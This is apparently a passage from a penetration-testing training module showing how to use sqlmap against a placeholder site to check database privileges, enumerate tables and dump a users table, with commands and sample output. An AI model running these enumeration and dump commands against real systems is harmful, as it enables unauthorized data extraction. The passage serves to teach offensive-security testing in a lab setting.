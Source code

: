 ```shell-session
current database: 'testdb'
[13:30:58] [INFO] testing if current user is DBA
[13:30:58] [INFO] fetching current user
current user is DBA: True
[13:30:58] [INFO] fetched data logged to text files under '/home/user/.local/share/sqlmap/output/www.example.com'

[*] ending @ 13:30:58 /2020-09-17/
```

From the above example, we can see that the database version is quite old (MySQL 5.1.41 - from November 2009), and the current user name is `root`, while the current database name is `testdb`.

Note: The 'root' user in the database context in the vast majority of cases does not have any relation with the OS user "root", other than that representing the privileged user within the DBMS context. This basically means that the DB user should not have any constraints within the database context, while OS privileges (e.g. file system writing to arbitrary location) should be minimalistic, at least in the recent deployments. The same principle applies for the generic 'DBA' role.

---

## Table Enumeration

In most common scenarios, after finding the current database name (i.e. `testdb`), the retrieval of table names would be by using the `--tables` option and specifying the DB name with `-D testdb`, is as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --tables -D testdb

...SNIP...
[13:59:24] [INFO] fetching tables for database: 'testdb'
Database: testdb
[4 tables]
+---------------+
| member        |
| data          |
| international |
| users         |
+---------------+
```

After spotting the table name of interest, retrieval of its content can be done by using the `--dump` option and specifying the table name with `-T users`, as follows:

```shell-session
smoothment@htb[/htb]$ sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb

...SNIP...
Database: testdb

Table: users
[4 entries]
+----+--------+------------+
| id | name   | surname    |
+----+--------+------------+
| 1  | luther | blisset    |
| 2  | fluffy | bunny      |
| 3  | wu     | ming       |
| 4  | NULL   | nameisnull |
+----+--------+------------+

[14:07:18] [INFO] table 'testdb.users' dumped to CSV file '/home/user/.local/share/sqlmap/output/www.example.com/dump/testdb/users.csv'
```
